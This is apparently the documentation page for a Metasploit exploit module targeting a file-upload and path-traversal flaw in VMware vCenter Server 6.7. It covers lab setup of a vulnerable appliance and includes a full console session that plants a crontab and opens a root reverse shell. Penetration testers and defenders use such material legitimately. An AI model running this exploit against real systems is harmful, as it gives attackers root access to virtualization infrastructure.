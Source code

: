 ## Vulnerable Application

### Setup

Follow [VMware's official documentation] or the unorthodox steps below.

1. Download ISO
1. Extract OVA from ISO
1. Import OVA
1. Boot VM
1. Set root password in console
1. Complete setup at <https://change-this-to-your-target-host:5480/>
1. _Ensure that [CEIP is enabled]_
1. **(Optional)** Upgrade to desired patch level

Initialization may take a while before the target is exploitable.

[VMware's official documentation]: https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vcenter.install.doc/GUID-8DC3866D-5087-40A2-8067-1361A2AF95BD.html
[CEIP is enabled]: https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vsphere.vcenterhost.doc/GUID-F97CD334-CD4A-4592-B7B1-43A49CF74F39.html

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### VMware vCenter Server 6.7 Update 3n (Linux appliance)

```
msf > use exploit/linux/http/vmware_vcenter_analytics_file_upload
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf exploit(linux/http/vmware_vcenter_analytics_file_upload) > options

Module options (exploit/linux/http/vmware_vcenter_analytics_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf exploit(linux/http/vmware_vcenter_analytics_file_upload) > set rhosts 172.16.57.2
rhosts => 172.16.57.2
msf exploit(linux/http/vmware_vcenter_analytics_file_upload) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf exploit(linux/http/vmware_vcenter_analytics_file_upload) > run

[*] Started reverse SSL handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. CEIP is fully enabled.
[*] Creating path traversal
[+] Successfully created path traversal
[*] Executing cmd/unix/reverse_perl_ssl (Unix Command)
[*] Writing system crontab: /etc/cron.d/GWjzDiAN.json
[+] Successfully wrote system crontab
[!] Please wait up to 63 seconds for a session
[*] Command shell session 1 opened (172.16.57.1:4444 -> 172.16.57.2:42868) at 2021-10-06 16:23:06 -0500

id
uid=0(root) gid=0(root) groups=0(root),1000(vami),4044(shellaccess),59005(coredump)
uname -a
Linux photon-machine 4.4.250-1.ph1 #1-photon SMP Fri Jan 15 03:01:15 UTC 2021 x86_64 GNU/Linux
```

